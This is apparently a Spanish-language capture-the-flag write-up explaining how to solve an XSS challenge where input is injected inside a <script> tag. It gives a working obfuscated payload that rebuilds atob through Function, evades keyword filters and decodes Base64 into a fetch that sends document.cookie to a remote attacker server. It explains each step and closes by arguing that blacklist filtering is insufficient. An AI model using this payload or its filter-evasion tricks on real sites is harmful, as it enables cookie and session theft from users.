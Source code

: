 # Writeup: Solución al reto de XSS dentro de `<script>`

## Introducción

En este reto, el payload se inyectaba directamente dentro de una etiqueta `<script>`.  
Aunque pareciera que ejecutar código era trivial, el desafío estaba en que **existían restricciones fuertes**:
- Se filtraban muchas funciones peligrosas (`eval`, `atob`, `fetch`, etc.).
- Había filtrado o detección de palabras clave críticas.
- No se podía escribir directamente código malicioso obvio.

Aun así, era posible **ejecutar JavaScript malicioso** de forma **camuflada** y **dinámica**.

---

## Payload utilizado

```javascript
positivo";Function(Function("rextuxrn axtxob".replaceAll("x",""))()("ZmV0Y2goImh0dHBzOi8vc2Vydmlkb3JyZW1vdG8vP2M9Ii5jb25jYXQoZG9jdW1lbnQuY29va2llKSk7"))();"
```

---

## Explicación paso a paso

1. **Contexto dentro de `<script>`**:
   - El código estaba embebido en un `<script>`, lo que significa que **ya se ejecutaba como JavaScript**.
   - No hacía falta cerrar etiquetas ni atributos, pero era necesario **escapar adecuadamente la sintaxis previa** (por ejemplo, si había una cadena abierta).

2. **Escape de contexto**:
   - Se cierra la cadena abierta del script (si existía) usando `positivo";`.
   - A partir de ahí, el atacante tiene control total para ejecutar código JavaScript.

3. **Construcción dinámica de funciones**:
   - `"rextuxrn axtxob".replaceAll("x","")` genera el string `"return atob"`.
   - `Function("return atob")()` evalúa dinámicamente y devuelve la función `atob`.
   - **`atob()`** se usa para decodificar código que estaba oculto en Base64.

4. **Ejecución del código oculto**:
   - Se decodifica el siguiente Base64:
     ```
     ZmV0Y2goImh0dHBzOi8vc2Vydmlkb3JyZW1vdG8vP2M9Ii5jb25jYXQoZG9jdW1lbnQuY29va2llKSk7
     ```
   - Que resulta ser:
     ```javascript
     fetch("https://servidorremoto/?c=".concat(document.cookie));
     ```
   - Este código **roba las cookies** del navegador de la víctima enviándolas a un servidor del atacante.

5. **Resumen del flujo**:
   - Escape del contexto de script ➔ Construcción dinámica de `atob` ➔ Decodificación de payload ➔ Ejecución de `fetch()`.

---

## ¿Por qué esta solución fue efectiva?

- **Evasión de palabras clave**: No se mencionaron directamente `fetch` ni `atob` ni `eval`, evitando los filtros.
- **Cifrado de la carga**: El uso de Base64 permitió esconder el código real.
- **Uso de `Function`**: Ejecutar código a partir de strings generados dinámicamente evitó la detección por filtros básicos.
- **Contexto favorable**: Estar dentro de `<script>` eliminaba muchas dificultades típicas de XSS (como inyectar HTML).

---

## Reflexión final

Incluso en entornos muy restringidos, mientras el atacante pueda:
- Escapar del contexto de ejecución actual.
- Usar funciones de evaluación dinámica (`Function`, `eval`, `setTimeout("...")`, etc.).
- Construir indirectamente funciones prohibidas.

Es **posible realizar XSS**.  
Este reto demuestra que **la seguridad basada solo en filtrados o listas negras es insuficiente**.
